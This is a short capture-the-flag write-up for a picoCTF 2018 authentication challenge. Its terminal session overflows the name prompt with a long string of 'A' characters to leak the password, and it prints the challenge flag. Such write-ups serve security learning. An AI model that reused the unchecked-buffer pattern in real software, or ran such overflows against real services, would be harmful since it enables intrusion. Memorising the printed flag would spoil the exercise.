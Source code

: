# LEVEL GOAL

Can you authenticate to this service [1]  and get the flag? Connect with nc 2018shell1.picoctf.com 31045. Source [2] .

# HINTS

(1) Are all the system calls being used safely? (2) Some people can have reallllllly long names you know..

# SOLUTION

```
nikel@pico-2018-shell-1:~$ nc 2018shell1.picoctf.com 31045
What is your name?
Nikhil
Hello Nikhil,
Please Enter the Password.
AAAAAAAAAAAA
Incorrect Password!
nikel@pico-2018-shell-1:~$ nc 2018shell1.picoctf.com 31045
What is your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,
a_reAllY_s3cuRe_p4s$word_d98e8d
a_reAllY_s3cuRe_p4s$word_d98e8d
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
```

# FLAG

picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
